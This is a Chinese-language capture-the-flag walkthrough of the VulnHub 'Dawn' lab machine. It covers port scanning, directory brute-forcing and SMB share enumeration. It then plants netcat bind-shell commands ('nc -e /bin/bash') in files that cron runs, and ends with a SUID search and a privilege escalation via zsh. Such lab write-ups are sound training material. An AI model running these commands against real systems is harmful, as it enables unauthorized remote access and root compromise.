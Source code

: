 # Dawn

> https://download.vulnhub.com/sunset/dawn.zip

靶场IP：`192.168.32.20`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.20
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-13 23:11 EDT
Nmap scan report for 192.168.32.20
Host is up (0.000092s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
MAC Address: 08:00:27:28:02:FE (Oracle VirtualBox virtual NIC)
Service Info: Host: DAWN

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.95 seconds

```

访问80端口

![image-20220914111203693](../../.gitbook/assets/image-20220914111203693.png)

爆破目录

```
┌──(root㉿kali)-[~]
└─# dirb http://192.168.32.20/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Sep 13 23:15:13 2022
URL_BASE: http://192.168.32.20/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.20/ ----
+ http://192.168.32.20/index.html (CODE:200|SIZE:791)                                                                                                                                                                                     
==> DIRECTORY: http://192.168.32.20/logs/                                                                                                                                                                                                 
+ http://192.168.32.20/server-status (CODE:403|SIZE:301)                                                                                                                                                                                  
                                                                                                                                                                                                                                          
---- Entering directory: http://192.168.32.20/logs/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Tue Sep 13 23:15:16 2022
DOWNLOADED: 4612 - FOUND: 2

```

访问：`/logs/`

![image-20220914111552593](../../.gitbook/assets/image-20220914111552593.png)

只能访问：`management.log`

```
┌──(root㉿kali)-[~]
└─# curl http://192.168.32.20/logs/management.log
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...

```

查看共享目录

```
┌──(root㉿kali)-[~]
└─# smbclient -L //192.168.32.20 
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        ITDEPT          Disk      PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            DAWN

```

查看`ITDEPT`共享目录

```
┌──(root㉿kali)-[~]
└─# smbclient //192.168.32.20/ITDEPT
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Aug  2 23:23:20 2019
  ..                                  D        0  Fri Aug  2 23:21:39 2019

                7158264 blocks of size 1024. 1283964 blocks available

```

我们回到我们的终端并创建了名为"`product-control`"和"`web-control`"的文件。

我们使用此名称创建文件，因为之前在枚举 `management.log` 文件时，我们看到具有此名称的文件每分钟执行一次。

![image-20220914120205822](../../.gitbook/assets/image-20220914120205822.png)

一次又一次，使用cron。我们还使用 echo 命令在这些文件中输入了 netcat shell 调用脚本。

```
echo 'nc -e /bin/bash -lvp 1234 &' > product-control
echo 'nc -e /bin/bash -lvp 1234 &' > web-control
```

SMB上传文件

![image-20220914112751900](../../.gitbook/assets/image-20220914112751900.png)

nc连接

![image-20220914120525331](../../.gitbook/assets/image-20220914120525331.png)

寻找suid文件

```
dawn@dawn:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/mount.cifs
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/zsh
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn

```

使用zsh提权

![image-20230208134137331](../../.gitbook/assets/image-20230208134137331.png)
